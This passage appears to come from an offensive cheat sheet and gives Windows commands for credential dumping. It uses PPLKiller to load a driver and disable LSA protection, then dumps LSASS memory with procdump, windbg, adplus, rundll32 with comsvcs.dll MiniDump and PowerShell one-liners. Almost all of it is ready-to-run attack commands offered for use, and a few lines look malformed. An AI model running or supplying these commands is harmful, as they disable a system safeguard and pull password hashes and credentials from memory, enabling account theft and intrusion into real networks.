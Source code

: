 ### 4.2 - Second Method

```
C:\> PPLKiller.exe /installDriver

C:\> PPLKiller.exe /disableLSAProtection

C:\> PPLKiller.exe /uninstallDriver
```

## 05 - Dump LSASS Process

Check if the LSASS process is present

```
C:\> tasklist.exe /fi "imagename eq lsass.exe"

PS C:\> get-process lsass
```

### 5.1 - Dump the process memory

#### 5.1.1 - Sysinternals

```
C:\> procdump.exe /accepteula -ma <lsass_pid> hashmem.dmp

C:\> procdump.exe /accepteula -ma lsass.exe hashmem.dmp

C:\> windbg.exe -p .dump /ma c:\path\to\hashmem.dmp .detach .q

C:\> adplus.exe -hang -pn lsass.exe -o C:\Windows\Temp\output\ -quiet
```

#### 5.1.2 - Living off the Land

##### 5.1.2.1 - Command Prompt

```
C:\> rundll32.exe Comsvcs.dll,Minidump "<lsass_pid> hashmem.dmp full"

C:\> rundll32.exe C:\Windows\System32\Comsvcs.dll,Minidump <lsass_pid> hashmem.dmp full

cmd.exe /Q /c for /f "tokens=1,2 delims= " %%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do rundll32.exe C:\windows\System32\comsvcs.dll, #+000024 %%B \Windows\Temp\*.* full
```

##### 5.1.2.2 - PowerShell

```
C:\> powershell.exe -ep bypass Get-Process lsass C:\Windows\System32\Taskmgr.exe /dumpfile=C:\lsass.dmp /pid=<pid>

PS C:\> rundll32.exe Comsvcs.dll,Minidump ((Get-Process lsass).Id) hashmem.dmp full
```
